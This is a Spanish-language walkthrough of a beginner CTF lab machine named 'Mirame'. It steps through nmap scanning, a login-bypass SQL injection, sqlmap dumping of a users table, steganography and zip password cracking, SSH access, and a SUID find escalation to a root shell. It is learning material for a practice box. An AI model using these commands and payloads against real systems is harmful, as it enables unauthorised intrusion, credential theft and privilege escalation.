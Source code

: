 ```yaml
---
description: '✍️ Autor: maciiii___ 🔍 Dificultad: Fácil  📅 Fecha de creación: 12/08/2024'
---
```


# Mirame

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (899).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (900).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea un panel de Login.

<figure><img src="../../.gitbook/assets/image (901).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Probamos con credenciales básicas y nada pero con una inyección básica si tenemos suerte.

```bash
'or 1=1-- -
```

Tras esto nos sale este panel en que si ingresas algo te sale la temperatura.

<figure><img src="../../.gitbook/assets/image (902).png" alt=""><figcaption></figcaption></figure>

Vamos a probar con **sqlmap** para ver que bases de datos hay.

```bash
sqlmap -u "http://172.17.0.2/index.php" --forms --batch --dbs
```

<figure><img src="../../.gitbook/assets/image (903).png" alt=""><figcaption></figcaption></figure>

Ahora vemos el contenido de la base de datos **users**.

```bash
sqlmap -u "http://172.17.0.2/index.php" --forms --batch -D users --tables
```

<figure><img src="../../.gitbook/assets/image (904).png" alt=""><figcaption></figcaption></figure>

Ahora vemos el contenido de la tabla de **usuarios**.

```bash
sqlmap -u "http://172.17.0.2/index.php" --forms --batch -D users -T usuarios --dump
```

<figure><img src="../../.gitbook/assets/image (905).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un usuario llamado **directorio** con la contraseña **directoriotravieso** suponemos que es un directorio por lo que miramos a ver.

<figure><img src="../../.gitbook/assets/image (906).png" alt=""><figcaption></figcaption></figure>

Nos descargamos la imagen para ver si se puede usar la esteganografía. Usamos esta herramienta ya que contiene una contraseña.

```
stegcracker miramebien.jpg /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (907).png" alt=""><figcaption></figcaption></figure>

Miramos que contiene la imagen escondido.

```bash
steghide extract -sf miramebien.jpg
```

<figure><img src="../../.gitbook/assets/image (908).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un archivo comprimido llamado **ocultito.zip** pero al descomprimirlo nos pide una contraseña. Por lo que usamos **John**.

```bash
zip2john ocultito.zip > hash
```

Usamos **John** para obtener la contraseña.

```bash
john hash
```

<figure><img src="../../.gitbook/assets/image (910).png" alt=""><figcaption></figcaption></figure>

Descomprimimos ahora sí el `.zip`.

<figure><img src="../../.gitbook/assets/image (911).png" alt=""><figcaption></figcaption></figure>

Conseguimos unas credenciales.

```bash
ssh carlos@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

<figure><img src="../../.gitbook/assets/image (912).png" alt=""><figcaption></figcaption></figure>

Buscamos permisos **SUID**.

```bash
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (913).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **find** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/find/)cómo explotarlo.

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../.gitbook/assets/image (914).png" alt=""><figcaption></figcaption></figure>
